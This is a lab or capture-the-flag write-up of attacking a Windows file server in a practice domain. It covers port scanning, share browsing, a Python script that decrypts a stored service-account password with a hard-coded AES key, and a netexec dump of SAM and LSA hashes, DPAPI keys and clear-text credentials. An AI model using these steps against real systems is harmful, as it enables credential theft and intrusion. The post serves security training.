






# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports and I know that this is the FileSystem server(but also WSUS and patch deployment via PDQ):

```bash
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
111/tcp   open  rpcbind       syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
443/tcp   open  https?        syn-ack ttl 64
445/tcp   open  microsoft-ds? syn-ack ttl 64
2049/tcp  open  nlockmgr      syn-ack ttl 64 1-4 (RPC #100021)
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=S021M015.work.junon.vl
| Issuer: commonName=S021M015.work.junon.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-29T03:59:58
| Not valid after:  2026-09-28T03:59:58
| MD5:     7be0 a056 7aae 7c9d a622 bb01 8682 3365
| SHA-1:   3fdb 7f47 c5d7 9397 e036 c811 066a 1c0a ba88 dc6b
| SHA-256: db47 be9c 5707 66aa 778f 83ee de34 0f17 1fda c042 c979 4d4e f50d 4e1f fc37 8006
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQXdgLwhgimo1EWrhon9+cYDANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZTMDIxTTAxNS53b3JrLmp1bm9uLnZsMB4XDTI2MDMyOTAzNTk1
| OFoXDTI2MDkyODAzNTk1OFowITEfMB0GA1UEAxMWUzAyMU0wMTUud29yay5qdW5v
| bi52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALLhECEytb8nrmWF
| xIkWk6dIKPewggPohNKKs2VTMd0phyzrvl2iXv0i7qYk/1ImwuLBu8MqsnPQnBDC
| Zr5NKp8MuGghZg1S3wEUTaMsU2Vced/4lpBtFLe4nxVEvJOlO4J9aDFzyHUdZsaj
| tV9IHcSn2lJiHrbmf6NZUw3KaJ3uccGGhV+SNO8tHS9yzQw8hIFPextkoS0U/GIA
| F0/AsAB1QTfPo1dEKIqHs0zG71EFlkRH4jFNHUu44OgERmAN1rkQACV16PQ+34F7
| W6aVexWgWXiYq1SKJYI77ac9ztLt6OMqp0iz8Wq1h2bYQl1g3SbElBAo3yvXsYy6
| AHbeN40CAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQA5xX7I5hPvXNJPIrYZsQQZwffrL8BvdTKERDJP
| u5mUo+vdIdQ9Zjg3JlhjGiWMJov2oE+yoOFcXqaNDv/8b2FgHfAKGQ9pIDlbtnsG
| hwjAPeHis9rNNN2N4h9APb/nGbWKm5gqFqz6EseWL1NDbWsxq10IMLFIWprM7Emo
| qkhIO4h4SaQQ0fpxyXxEHjtMEMYV47U2glNFJoqQDcd2yQo9cgupNKbJwmlEaqa8
| q7Q3r0OnkrB1A7O6jQVqeR3av35K9rq5Y6DO8MRaKLLoBe1aKW2AvPhOLxrPdrhw
| B5T9uJL2iBCOHSi8uioY9+Aej3HzB9/MtRopjEbVZ/ZNiF8L
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: WORK-JUNON
|   NetBIOS_Domain_Name: WORK-JUNON
|   NetBIOS_Computer_Name: S021M015
|   DNS_Domain_Name: work.junon.vl
|   DNS_Computer_Name: S021M015.work.junon.vl
|   DNS_Tree_Name: work.junon.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-30T08:02:06+00:00
|_ssl-date: 2026-03-30T08:02:45+00:00; +2s from scanner time.
8530/tcp  open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp  open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49707/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
51768/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=80%CT=%CU=%PV=Y%G=N%TM=69CA2E36%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10C%TI=I%CI=I%TS=A)
SEQ(SP=FE%GCD=1%ISR=FF%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# File System

Judging by the result of the VDI scan this must be the File-system?

```
PS C:\Users> net use
New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
OK           Z:        \\S021M015\homes\Roger.Ball
                                                Microsoft Windows Network
The command completed successfully.

PS C:\Users>
```

And abusing the permissions I found eariler I can see another set of valid credentials from the deployment share?

```bash
-] No share selected
# use deployment$
# ls
drw-rw-rw-          0  Fri Mar 27 13:53:32 2026 .
drw-rw-rw-          0  Fri Jul 26 09:03:45 2024 ..
-rw-rw-rw-        151  Fri Jul 26 09:03:41 2024 config.xml
# cat config.xml
<securepass>
    <username>svc_me</password>
    <password>SP81274145f4a5857b839ee7b500f1d66e8a044d12211781b515e7bae67bb7abce</password>
</securepass>

# 

```

But I am not sure how can it be decrypted so moving to the home fodler I can see traces about another flag?

```bash
drw-rw-rw-          0  Wed Mar 29 18:26:25 2023 Wendy.Vincent
# tree 
/Amy.Ball/flag.txt


 cat flag.txt
WUTAI{4b615fe8a5b0d36f581ff1f78a708821}
# 


```

Ah now I see a custom binary:

```bash
-rw-rw-rw-     144896  Fri Mar 31 11:43:20 2023 SecurePass.exe
# get SecurePass.exe
# 


```

This new account seems part of the admin of a CMDB?  


# Reversing

Now I do not think this account will gain me more access than what I have right now on the AD side, but it definitely will be needed later on. And I asked AI to generate this do decrypt the password:

```python
import sys
from Crypto.Cipher import AES

# Key from address 140022a30
STATIC_KEY = bytes([
    0x86, 0x23, 0x05, 0x09, 0x22, 0xab, 0x89, 0x0b, 
    0xbd, 0x2f, 0x79, 0x88, 0x6c, 0xd6, 0x80, 0x9f
])

def decrypt_final_clean(output_string):
    try:
        # Strip 'SP' and split IV from Ciphertext
        raw_hex = output_string.strip()
        if raw_hex.startswith("SP"):
            raw_hex = raw_hex[2:]
            
        iv = bytes.fromhex(raw_hex[:32])
        ciphertext = bytes.fromhex(raw_hex[32:])

        # 1. AES Decrypt
        cipher = AES.new(STATIC_KEY, AES.MODE_CBC, iv=iv)
        decrypted = cipher.decrypt(ciphertext)

        # 2. Undo the String Reversal
        reversed_data = decrypted[::-1]

        # 3. Undo the XOR 0x42 Mask
        unmasked = bytes([b ^ 0x42 for b in reversed_data])

        # 4. Clean output: 
        # We strip nulls (\x00) and the padding characters 
        # (J for WetPussy/8-byte pad, N for test/12-byte pad)
        # We only want printable characters.
        decoded = unmasked.decode('utf-8', errors='ignore')
        
        # This removes the specific padding chars 'J' and 'N' 
        # and any non-printable junk.
        clean_password = "".join(c for c in decoded if 32 <= ord(c) <= 126)
        
        # Final safety: If the string starts with JJJ or NNN, strip them
        return clean_password.lstrip('JN')

    except Exception as e:
        return f"Error: {str(e)}"

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else ""
    if target:
        print(f"Decrypted Password: {decrypt_final_clean(target)}")
    else:
        print("Usage: python3 decrypter.py <SP_STRING>")

```

And since the password is less than 16 chars the first "C" is just padding but this is the password of the service account:

```bash
python3 decrypter2.py SP81274145f4a5857b839ee7b500f1d66e8a044d12211781b515e7bae67bb7abce
Decrypted Password: CjYEp9bq32KFLVL!

//Removing the initial padding bytes the correct password is CjYEp9bq32KFLVL!
```

The short explanation is that this software was doing a AES128 encoding and the hash structure was SP + The Random Salt (IV) + The Encrypted Password.  
The tool's biggest mistake was including the IV directly in the output string and keeping the Secret Key static inside the .exe. Once we found that key in the data section, the "lock" was essentially broken, and all we had to do was follow the steps in reverse.

From here I noticed the new account was admin on the File Server allowing me to dump all the secrets, obtaining access to the clear-text credentials of another user:

```bash
└─$ proxychains netexec smb 172.16.21.195 -u svc_me -p 'jYEp9bq32KFLVL!' --sam --lsa --dpapi 2>/dev/null 
SMB         172.16.21.195   445    S021M015         [*] Windows Server 2022 Build 20348 x64 (name:S021M015) (domain:work.junon.vl) (signing:False) (SMBv1:None)
SMB         172.16.21.195   445    S021M015         [+] work.junon.vl\svc_me:jYEp9bq32KFLVL! (Pwn3d!)
SMB         172.16.21.195   445    S021M015         [*] Dumping SAM hashes
SMB         172.16.21.195   445    S021M015         Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb43b835eaa78aeb5e55760a04227fd1:::
SMB         172.16.21.195   445    S021M015         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.195   445    S021M015         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.195   445    S021M015         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92f85d63062ce3b98205fd5370b4b951:::
SMB         172.16.21.195   445    S021M015         [+] Added 4 SAM hashes to the database
SMB         172.16.21.195   445    S021M015         [+] Dumping LSA secrets
SMB         172.16.21.195   445    S021M015         WORK.JUNON.VL/Amy.Ball:$DCC2$10240#Amy.Ball#ffe4b04092a9fec4de8a44125d3512a2: (2023-03-31 09:52:16)
SMB         172.16.21.195   445    S021M015         WORK.JUNON.VL/Administrator:$DCC2$10240#Administrator#1bedef2bf1e9355c3f33175b3f9ff9dc: (2025-05-29 04:34:37)
SMB         172.16.21.195   445    S021M015         WORK.JUNON.VL/svc_deploy:$DCC2$10240#svc_deploy#dccb0113a5cb3da8b2393a3e27b2af2c: (2026-03-30 04:03:59)
SMB         172.16.21.195   445    S021M015         WORK.JUNON.VL/svc_me:$DCC2$10240#svc_me#576690cf51fe3790f199b00c18b959da: (2025-10-20 13:35:37)
SMB         172.16.21.195   445    S021M015         WORK-JUNON\S021M015$:aes256-cts-hmac-sha1-96:130acae36ea39f77ccde5101ed7f9b25b46399528a580ca6543233948d8f733b
SMB         172.16.21.195   445    S021M015         WORK-JUNON\S021M015$:aes128-cts-hmac-sha1-96:9accbe7807c83afd41a2b0c0bbfcb163
SMB         172.16.21.195   445    S021M015         WORK-JUNON\S021M015$:des-cbc-md5:a889104fba570745
SMB         172.16.21.195   445    S021M015         WORK-JUNON\S021M015$:plain_password_hex:1f2e221e76c2e5f13e07b644ec5a5f5c2b92bc57153d48c40f4e9fb501aace96ff362461ffce8f94f7a140547e13e0ea9fd3b48af723a04c6a7c36c67ca680e10d52b060fdddd7663d297acbfffa96ca662a173bc190f71106094a14657863d5fa24eac41ce3276de7ef3d0dfc65ced495c5891ed3e940b2801c3f78a1004a08225c9cc3b8de9a2d29877f78dbd12a5d52e5e3d6b3d30f586011b542477745a1fdd1ba7e1bca4278d8e8d7395839af6d93c5097fa1ff577e0962998f82592bd0a8a3fcb34b88deb9dde535e1e58cd89a70dc8b5f6fc13feb03792513343fe6615bae3551ec28fd8bba8fb66a71f4cc60
SMB         172.16.21.195   445    S021M015         WORK-JUNON\S021M015$:aad3b435b51404eeaad3b435b51404ee:9194693fb95f9d6ff27844381d5b93e0:::
SMB         172.16.21.195   445    S021M015         dpapi_machinekey:0xf288fa6419fe20007df10b6bc6b6f490eb7653e3
dpapi_userkey:0x97fc29edb43e81e69f569213aad7659784f5d844
SMB         172.16.21.195   445    S021M015         work.junon.vl\svc_deploy:AssetManagement2024!
SMB         172.16.21.195   445    S021M015         [+] Dumped 11 LSA secrets to /home/user/.nxc/logs/lsa/172.16.21.195_None_2026-03-30_092628.secrets and /home/user/.nxc/logs/lsa/172.16.21.195_None_2026-03-30_092628.cached
SMB         172.16.21.195   445    S021M015         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.21.195   445    S021M015         [+] Got 15 decrypted masterkeys. Looting secrets...

```

I will also obtain another flag:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
WUTAI{f488998985a51efb94a2a8f859e5e7c2}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

# Pivoting further

Now i noticed I don't see much more stuff going on here on the system but I see that this machine has 2 different patch deplyment appications that might lead to access to different machines?



And the WSUS:



But before doing anything I will setup a Ligolo-Ng tunnel for persistence and getting better performances than Proxychains:



Now the WSUS seems having connection to only one potential account:



But that is the DC and I really don't think that is the way in, but on other hand the custom patch deployment tool has connection to  other tools?



But in both case that is inrrelevant as my deployment user can reach manually, for this reason I will move on to the workstation S021W105.

&nbsp;

&nbsp;